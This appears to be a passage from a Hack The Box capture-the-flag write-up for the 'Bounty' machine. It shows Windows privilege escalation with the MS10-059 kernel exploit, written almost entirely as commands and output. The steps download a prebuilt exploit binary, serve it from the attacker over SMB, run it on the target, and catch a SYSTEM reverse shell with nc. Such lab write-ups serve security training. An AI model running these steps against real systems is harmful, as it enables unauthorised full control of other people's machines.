 ## MS10-059

Downloaded and hosted the exploit:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bounty/exploit]
└─$ wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
--2021-05-24 12:13:01--  https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
...
2021-05-24 12:13:02 (5.53 MB/s) - ‘MS10-059.exe’ saved [784384/784384]

┌──(kali㉿kali)-[~/…/HTB/box/Bounty/exploit]
└─$ sudo impacket-smbserver kali . -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
...
```

Downloaded and executed the exploit on the target:

```powershell
C:\temp>copy \\10.10.14.3\kali\MS10-059.exe .
copy \\10.10.14.3\kali\MS10-059.exe .
        1 file(s) copied.

C:\temp>.\MS10-059.exe 10.10.14.3 10099
.\MS10-059.exe 10.10.14.3 10099

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

Obtained SYSTEM shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bounty]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49169
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
nt authority\system

C:\temp>hostname
hostname
bounty

C:\temp>ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : bounty
   Primary Dns Suffix  . . . . . . . :
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

```
